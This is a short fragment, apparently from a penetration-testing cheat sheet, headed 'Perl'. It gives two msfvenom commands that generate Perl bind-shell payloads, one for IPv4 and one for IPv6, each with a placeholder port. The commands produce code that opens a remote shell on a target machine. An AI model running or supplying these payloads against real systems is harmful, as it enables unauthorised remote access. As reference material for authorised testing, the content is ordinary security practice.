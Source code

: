 # Perl

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_perl lport=<PORT>

$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>
```